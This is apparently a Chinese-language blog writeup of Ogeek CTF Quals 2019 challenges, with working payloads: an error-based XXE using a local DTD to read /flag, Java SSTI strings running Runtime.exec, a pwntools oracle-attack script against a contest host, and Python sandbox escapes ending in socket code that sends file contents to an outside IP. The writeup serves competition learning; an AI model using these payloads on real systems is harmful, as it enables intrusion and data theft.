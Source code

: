```yaml
---
title: Ogeek CTF Quals 2019 Writeup
categories: CTF&AWD
tags:
  - writeup
abbrlink: 45148
date: 2019-08-26 01:38:28
---
```


## 写在之前

周末打了这个比赛,趟大佬的车,混到第六.如果不是我这么菜,有机会第四或第三的.

如此简单的web题都解不了,丢人(捂脸

感谢比赛过程中队内各位大佬给的各种提示.

以下writeup仅是我自己能解的题或参与解的题.

## WEB

### LookAround 

F12查看源码发现一个文件名奇怪的js,功能是定时发送请求.

请求内容比较奇怪,猜测就是考点,xxe了.

随便改了下xml,就发生500报错.

尝试了下常见的payload,猜测逻辑,如果xml合法则无返回,xml异常则500报错.

队内师傅提醒之下,找到关键点

![img](/1.png)

[exploiting-xxe-with-local-dtd-files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

文章里给的payload

![1566745929599](/2.png)

文件不存在,那就找一个linux系统默认存在的,直接去linux全局文件搜索

![1566746070866](/1566746039967.png)

找一个可以用的,报错xxe成功获取flag

最终payload如下

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % condition 'aaa)>
        aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

### render

随便测试了一下,发现[[9*9]]中的内容被执行了输出了49.

搭配题目名字render,SSTI没跑了.

网上搜索发现了几个可用的payload

<https://www.4hou.com/vulnerable/9779.html>

`[[${T(java.lang.System).getenv()}]]`

![1566747041625](/1566747041625.png)

执行命令:

`${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}`

但是没有回显,测试了`nc,curl,wget`都弹不出来.不熟悉java.

然后队内师傅提示,直接读文件.

`[[${new java.io.BufferedReader(new [java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec("cat /flag").getInputStream())).readLine()}]]`

或

`[[${new java.io.BufferedReader(new [java.io.FileReader("/flag")).readLine()}]]`

### Easy Realworld Challenge 

比赛的时候没做出来,卡在FTP读文件,时间上差了一点,有机会第四,还是我太菜了.

题解明天再整

## Crypto

### babycry

常见套路,第一次爆破flag前7位需要手动改一下,懒得写一键脚本了.第七位到最后爆破的脚本如下:

```
from pwn import *
flagkey="1234567890qwertyuiopasdfghjklzxcvbnm{}-_"
flag=''

def conn ():
    global  r
    r = remote("139.9.222.76",19999)
    r.recv()

    #r.sendline("1"*pad)
    return r


def cut_text(text,lenth):
    textArr = re.findall('.{'+str(lenth)+'}', text)
    textArr.append(text[(len(textArr)*lenth):])
    return textArr

def get(conn,s):
	conn.sendline('des '+s)
	return cut_text(conn.recv(),16)[:-1]


def fuck():
	r = conn()
	f = 'flag{c0'
	for k in range(1,5):
		pad = 0

		for j in range(8):
			padding='0'*(8-pad)

			stand = get(r,padding)[k]
			for i in flagkey:
				stand2 = get(r,padding+f+i)[k]

				if stand == stand2:
					pad = pad + 1
					f = f + i
					print f
					break
			
fuck()
#flag{c0ngratul4tions_1_y0uve_chec7ed_1n_ogeek}


```

## MISC

### pybox

绕过思路和ciscn的一样,就是没回显

`__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('sleep 4')`

那就弹,又是`nv,curl,wget`都试一遍,无果

看提示,cut,sleep,那就是时间盲注了

` __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('sleep $(ca'+'t /home/flag|cut -c1|tr f 4)')`

但是tr被过滤了,尝试别的方法替换字符串.

```
__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')("export str=\`tac /home/flag\`;str=${str:0:1};str=${str/f/2} && sleep $str ")  
```

不知道为什么只有通配符能替换,ascii1-256都不行,无果

又是队内大佬提示

```shell
s=__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('socket').__getattribute__('socket')()
s.connect(('111.111.111.111', 11111))
p=__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('popen')('cut -c 1-64 flag')
s.send(p.read())
```

感觉这是非预期解了